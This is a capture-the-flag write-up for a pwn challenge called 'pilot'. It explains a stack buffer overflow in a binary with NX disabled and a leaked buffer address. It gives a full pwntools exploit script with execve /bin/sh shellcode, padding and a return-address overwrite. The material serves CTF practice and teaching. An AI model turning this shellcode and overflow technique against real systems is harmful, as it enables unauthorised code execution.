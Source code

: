 # Pilot (pwn)

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/3b8098fc-3eae-4c84-a685-e70b03958bf2)  

Since there are no binary security measures enabled, the only thing we have to worry about is ASLR.  
Remember that ASLR is a Kernel level security and is independent of the binary.  

Running the program seems to be a DropShipping simulator, it prints something that looks like a stack address and then asks for a command.
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/e622dcd7-d282-4101-818b-9d2c07736c58)

Let's look at the binary in Ghidra

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/18d81087-9de9-4bd7-ab60-d454360d757f)  

C++, absolutely disgusting :(  

I'll point your attention to the important parts:
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8930f563-dbf6-4d60-80f8-e29eb9db46fa)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/9233a216-242d-4556-bd64-8519ac86df08)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/b3664a55-f8b8-44c0-8389-e886b4d1a019)  

So we have a buffer overflow, and the address that is printed for us is the address of our buffer.  

## Exploitation

Using GDB I determined that the offset between the beginning of the buffer and the return address was 40 bytes  
Therefore our exploit looks like the following:
`[ Shellcode | Padding until return address | Buffer Addr ]`  

Why?  
Since NX is disabled that means that the Stack is marked as executable.  
Therefore we can write assembly instructions into the stack and then redirect execution to them to execute arbitrary code.  

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pilot
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pilot')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX unknown - GNU_STACK missing
# PIE:      No PIE (0x400000)
# Stack:    Executable
# RWX:      Has RWX segments

io = start()
'''
push rax
xor rdx, rdx
xor rsi, rsi
movabs rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 0x3b
syscall
'''
shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
print(len(shellcode))
padding = (40-len(shellcode)) * b'A'

io.recvuntil(b'Location:')
buf_addr = io.recvline()[:-1]
print(buf_addr)
buf_addr = int(buf_addr,16)

payload = shellcode + padding + p64(buf_addr)

io.sendline(payload)
io.interactive()
```
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/2ffe5ed9-72a2-44cb-9db9-3115786e9545)


